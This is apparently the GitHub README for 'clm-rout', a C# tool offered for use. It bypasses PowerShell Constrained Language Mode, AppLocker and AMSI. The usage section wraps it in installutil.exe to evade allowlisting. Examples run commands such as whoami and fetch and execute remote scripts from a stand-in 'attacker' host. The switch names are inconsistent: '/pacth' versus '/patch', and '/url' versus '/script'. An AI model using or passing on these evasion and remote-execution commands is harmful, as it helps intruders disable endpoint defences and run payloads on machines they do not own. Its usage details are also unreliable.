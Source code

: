 # clm-rout

[![Language](https://img.shields.io/badge/Lang-C%23-blue)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://docs.microsoft.com/en-us/dotnet/csharp/)

## An all-in-one bypass for `PowerShell Constrained Language Mode` (`CLM`), `AppLocker` and `Antimalware Scan Interface` (`AMSI`) using Runspace.

## Features

- Evade `AppLocker`.
- Evade `CLM`.
- Patch `AMSI` via the `/pacth` command switch.
- Execute command(s) via the `/cmd=<cmd>` command switch.
- Load and execute remotely hosted script(s) via the `/url=<http(s)://foo.bar/foobar>` command switch.
- Output the results of commands/scripts (supports `stdout` and `stderr`).

## Installation

1. Clone/download `clm-rout`:

    ```powershell
    git clone https://github.com/aress31/clm-rout
    ```

2. Build the project with `Visual Studio 2022`.

## Usage

- (Recommended) Create an "alias" for the function:

```powershell
function run {
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe `
		/uninstall /logfile= /LogToConsole=false `
		/patch $Args `
		C:\users\foo\CLMRout.exe
}
```

### Examples

- Execute command(s):

    ```powershell
    run /cmd="hostname; whoami"
    ```

- Execute remote script(s):

    ```powershell
    run /script="http://attacker/script1.ps1; http://attacker/script2.ps1"
    ```

- Execute remote script(s) followed by command(s):

    ```powershell
    run /cmd="hostname; whoami" /script="http://attacker/script1.ps1; http://attacker/script2.ps1"
    ```

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/clm-rout/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/clm-rout/pulls).

## License

`clm-rout` is distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.